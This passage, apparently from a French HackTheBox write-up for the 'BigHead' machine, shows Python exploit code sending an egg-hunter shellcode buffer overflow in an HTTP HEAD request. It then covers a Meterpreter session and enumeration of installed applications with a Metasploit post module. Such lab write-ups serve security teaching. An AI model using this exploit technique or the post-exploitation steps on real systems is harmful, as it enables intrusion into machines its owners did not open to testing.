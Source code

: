 ```python
shellcode += "8b06"        # mov eax, [esi]
shellcode += "46"          # inc esi, 4
shellcode += "31d8"        # xor eax, ebx
shellcode += "75f9"        # jnz
shellcode += "464646"      # inc esi 3 times
shellcode += "ffe6"        # jmp esi

shellcode += "A" * (73 - len(shellcode))

buff = "HEAD " + shellcode + hexlify(struct.pack("I", jmp_eax)).decode()
buff += " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
print("buff length is", len(buff))

sock.send(buff.encode())
sleep(1)
sock.close()
```

Cette fois l'exploit est d'une fiabilité parfaite : le shellcode final est exécuté et le thread termine proprement.  

Comme on cherche directement dans le tas il est aussi rapide alors que d'autres participants ont indiqué sur le forum de *HackTheBox* attendre plusieurs minutes avant l'arrivée du shell :)  

Après il peut arriver sur le CTF que l'exploit n'aboutisse pas. Parmi les raisons possibles on peut mentionner les dirbuster lancés sur le serveur qui ont pris la totalité de la mémoire (je rappelle qu'il manque des appel à *free()*) ou encore une collision sur le tag (moins probable si on le choisit correctement) qui amènera à un crash ou l'exécution d'un payload qui n'est pas le notre :D  

Dans tous les cas, la réelle configuration *Nginx* fait du load-balancing pour transférer les requêtes à l'une des dix instances de *BigHeadSvr.exe*. Par conséquent si ça ne marche pas du premier coup il suffit de relancer l'exploit.  

Nelson of a batch
-----------------

Une fois notre session Meterpreter obtenue (aucun AV ne tourne sur la machine, ça soulage un peu) on a la déception de voir que l'utilisateur Nelson n'a pas le flag *user.txt* sur son bureau...  

Le système a deux autres utilisateurs qui sont *Gilfoyle* (l'administrateur) et *nginx*.  

Il s'agit d'un système 32 bits, Windows 2008 (Build 6002, Service Pack 2). Metasploit suggère plusieurs exploits locaux mais aucun n'aboutit.  

On peut se servir d'un module auxiliaire pour lister les applications installées :  

```plain
meterpreter > run post/windows/gather/enum_applications

[*] Enumerating applications installed on PIEDPIPER

Installed Applications
======================

 Name                                                              Version
 ----                                                              -------
 7-Zip 18.05                                                       18.05
 Bitnami TestLink Module                                           1.9.17-0
 Bitvise SSH Server 7.44 (remove only)                             7.44
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB953595)            1
 Hotfix for Microsoft .NET Framework 3.5 SP1 (KB958484)            1
 KeePass Password Safe 2.40                                        2.40
 Microsoft .NET Framework 3.5 SP1                                  3.5.30729
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft .NET Framework 4.5.2                                    4.5.51209
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.21022         9.0.21022
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161    9.0.30729.6161
```